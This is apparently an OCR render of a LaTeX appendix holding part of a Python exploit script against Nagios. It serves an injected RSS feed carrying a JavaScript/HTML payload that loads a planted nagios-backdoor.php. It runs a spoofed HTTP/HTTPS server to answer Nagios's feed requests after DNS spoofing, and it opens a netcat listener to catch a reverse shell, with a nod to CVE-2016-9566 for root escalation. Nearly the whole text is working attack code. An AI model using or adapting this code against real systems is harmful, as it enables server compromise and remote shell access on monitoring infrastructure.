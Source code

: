 \documentclass[12pt]{report}
\begin{document}
\begin{appendices}
\begin{scriptsize}
\begin{verbatim}
    # Feed XML containing JavaScript payload that will load the nagios-backdoor.php script
    global xmldata
    xmldata = """<?xml version="1.0"?>
    <rss version="2.0">
          <channel>
            <title>Nagios feed with injected JS payload</title>
            <item>
              <title>Item 1</title>
              <description>

                &lt;strong&gt;Feed injected. Here we go &lt;/strong&gt; - 
                loading /nagios/nagios-backdoor.php now via img tag... check your netcat listener for
                nagios shell ;) 

                &lt;img src=&quot;/nagios/nagios-backdoor.php&quot; onerror=&quot;alert('Reverse Shell
                /nagios/nagios-backdoor.php executed!')&quot;&gt;

              </description>

            </item>

          </channel>
    </rss> """


    # Generate SSL cert
    print "[+] Generating SSL certificate for our python HTTPS web server \n"
    os.system("echo -e '\n\n\n\n\n\n\n\n\n' | openssl req  -nodes -new -x509  -keyout server.key -out
    server.cert 2>/dev/null")

    print "[+] Starting the web server on ports 80 & 443 \n"
    application = tornado.web.Application([
        (r'/.*', MainHandler)
    ])
    application.listen(80)
    http_server = tornado.httpserver.HTTPServer(
        application, 
        ssl_options = {
            "certfile": os.path.join("./", "server.cert"),
            "keyfile": os.path.join("./", "server.key"),
        }
    )
    http_server.listen(443)

    print "[+] Web server ready for connection from Nagios (http://target-svr/nagios/rss-corefeed.php).
    Time for your dnsspoof magic... ;)\n"
    tornado.ioloop.IOLoop.current().start()

    if (docroot_rw == 1):
      print "[+] PHP backdoor should have been saved in %s on the target by now!\n" % backdoor_path
      print "[*] Spawning netcat and waiting for the nagios shell (remember you can escalate to root via
      CVE-2016-9566 :)\n"
      os.system("nc -v -l -p 8080")
      print "\n[+] Shell closed\n"

    print "[+] That's all. Exiting\n"
\end{verbatim}
\end{scriptsize}


\end{appendices}
\end{document}
